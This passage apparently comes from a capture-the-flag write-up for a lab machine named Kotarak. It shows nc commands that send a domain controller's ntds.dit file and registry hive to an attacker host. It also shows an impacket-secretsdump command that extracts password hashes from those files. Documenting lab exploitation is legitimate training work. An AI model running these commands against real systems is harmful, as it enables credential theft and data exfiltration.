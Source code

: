 looking a tomacat directories in pentest_data i seem to find the two files.The `.bin` reports to be a Windows registry file, where as `file` doesn’t recognize the `.dit` as anything more than data. lets transfer them to my local machine and be able to explore them.

![](/Linux/Linux-Hard/Kotarak/Screenshots/pentest_data.png)

we  do this in the kotark machine

```sh
nc 10.10.14.15 9000 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```

and this in our localhost machine

```sh
nc -nvlp 9000 > 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```

`impacket-secretsdump` will extract all the hashes from an `ntds.dit` file using the SYSTEM reg hive to decrypt:

```sh
impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL | tee secrethashes
```


![](/Linux/Linux-Hard/Kotarak/Screenshots/hashes.png)
